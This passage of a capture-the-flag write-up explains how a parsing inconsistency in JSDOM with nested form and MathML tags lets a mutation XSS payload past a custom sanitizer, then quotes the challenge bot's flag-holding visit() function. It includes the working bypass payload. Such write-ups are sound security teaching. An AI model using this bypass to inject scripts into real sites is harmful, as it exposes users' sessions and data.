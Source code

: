 There is a similar [research](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/#:~:text=wasn%E2%80%99t%20ever%20there.-,Now%20comes,-the%20interesting%20part) on nested forms in DOMpurify.

Using this parsing inconsistency in JSDOM for nested tags, we can exploit the website. This can be done by giving nested forms into the custom sanitizer and it will take that as normal tags but in the browser it will trigger an XSS.

The exploit is
``<form><math><mtext></form><form><mglyph><style></math><script>alert(10)</script>``

Then the sanitizer serializes this into ... 
``<form><math><mtext><form><mglyph><style></math><script>alert(10)</script></style></mglyph></form></mtext></math></form>``

But the browser takes this as
``<form><math><mtext><mglyph><style></style></mglyph></mtext></math><script>alert(10)</script></form>``

And the exploit will parse into the DOM as
![DomView](exp.png)

It is because the form element comes as the direct child of another form, which is not possible, thus the inner form tag is removed from the DOM. Then the ``</math>`` tag closes the tags before it and the script tag comes outside.

So now we have successfully got XSS. But how do we get the flag?
### 2nd Step - Getting the flag
The flag is in the visit() function

```js
async function visit(path) {
    let browser, page;

    if (!/^\/note\?/.test(path)) {
        return 'Invalid path!';
    }
    const url = new URL(BASE_URL + path);
    let res = FLAG;

    try {
        browser = await puppeteer.launch({
            headless: 'new',
            args: [
                '--no-sandbox',
                '--disable-setuid-sandbox',
            ],
            executablePath: '/usr/bin/chromium-browser',
        });

        page = await browser.newPage();

        await page.goto(url, { waitUntil: 'domcontentloaded', timeout: 2000 });

        try {
            let text = new URL(url).searchParams.get('text');
            text = sanitize(text);
            await page.waitForFunction(text => document.write(text), { timeout: 2000 },text);
            res = "ByeBye!";
        } catch (e) {
            if (e instanceof puppeteer.ProtocolError && e.message.includes('Target closed')) {
                return res;
            }
        } finally {
            res = "ByeBye!";
        }
```